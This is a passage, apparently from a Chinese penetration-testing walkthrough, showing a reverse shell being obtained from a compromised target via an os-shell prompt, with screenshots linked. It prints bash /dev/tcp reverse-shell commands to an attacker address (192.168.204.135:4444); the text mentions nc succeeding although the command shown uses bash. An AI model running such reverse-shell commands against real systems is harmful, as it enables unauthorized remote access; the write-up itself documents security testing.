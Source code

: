 [![](assets/1705886707-ae396fd7684eebecd8c17e2aca7c7e47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120725-6b140b66-b749-1.png)  
[![](assets/1705886707-3b25bed7017943fedd832be6f40c77a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120743-7624216c-b749-1.png)  
随后我们去尝试反弹shell，发现bash反弹(/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1)失败，随后经历过一些尝试发现可以使用nc来反弹shell，执行结果如下：

```plain
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/192.168.204.135/4444 0>&1'
```

[![](assets/1705886707-4d273f35c7f0034a89e8c7f9e29bb270.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120821-8cb215ec-b749-1.png)  
随后我们在攻击主机上获取到目标服务器的shell，至于后续的提权就不做演示了  